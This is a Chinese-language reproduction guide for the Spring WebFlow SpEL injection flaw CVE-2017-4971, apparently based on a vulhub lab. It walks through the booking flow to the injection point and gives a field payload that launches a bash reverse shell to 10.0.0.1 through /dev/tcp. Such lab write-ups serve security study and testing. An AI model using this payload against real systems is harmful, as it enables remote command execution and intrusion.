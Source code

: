 （CVE-2017-4971）Spring WebFlow 远程代码执行漏洞
================================================

一、漏洞简介
------------

Spring WebFlow
是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其
2.4.x
版本中，如果我们控制了数据绑定时的field，将导致一个SpEL表达式注入漏洞，最终造成任意命令执行。

二、漏洞影响
------------

Spring Web Flow 2.4.0版本至2.4.4版本

三、复现过程
------------

首先访问`http://www.0-sec.org:8080/login`，用页面左边给出的任意一个账号/密码登录系统：![1.png](./.resource/(CVE-2017-4971)SpringWebFlow远程代码执行漏洞/media/rId24.png)然后访问id为1的酒店`http://www.0-sec.org/hotels/1`，点击预订按钮"Book
Hotel"，填写相关信息后点击"Process"（从这一步，其实WebFlow就正式开始了）：

![2.png](./.resource/(CVE-2017-4971)SpringWebFlow远程代码执行漏洞/media/rId25.png)

再点击确认"Confirm"：

![3.png](./.resource/(CVE-2017-4971)SpringWebFlow远程代码执行漏洞/media/rId26.png)此时抓包，抓到一个POST数据包，我们向其中添加一个字段（也就是反弹shell的POC）：

    _(new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/10.0.0.1/21 0>&1")).start()=vulhub

![4.png](./.resource/(CVE-2017-4971)SpringWebFlow远程代码执行漏洞/media/rId27.png)（注意：别忘记URL编码）

成功执行，获得shell：

![5.png](./.resource/(CVE-2017-4971)SpringWebFlow远程代码执行漏洞/media/rId28.png)

参考链接
--------

> https://github.com/vulhub/vulhub/tree/master/spring/CVE-2017-4971

